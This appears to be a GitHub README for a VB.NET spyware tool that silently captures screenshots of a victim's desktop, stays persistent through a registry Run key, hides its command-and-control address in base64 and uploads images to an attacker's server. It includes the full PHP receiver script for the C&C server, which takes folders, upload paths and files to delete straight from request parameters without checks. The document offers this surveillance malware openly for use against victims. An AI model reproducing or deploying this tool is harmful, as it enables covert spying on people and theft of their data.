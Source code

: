 # ****Mr Peter :D****

## Silent Screenshot Capture | Post Exploitation Tool | VB.NET

A simple payload to take the screenshot of victims desktop and upload it to the C&C.

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot on after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new php file and put this code in it

<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
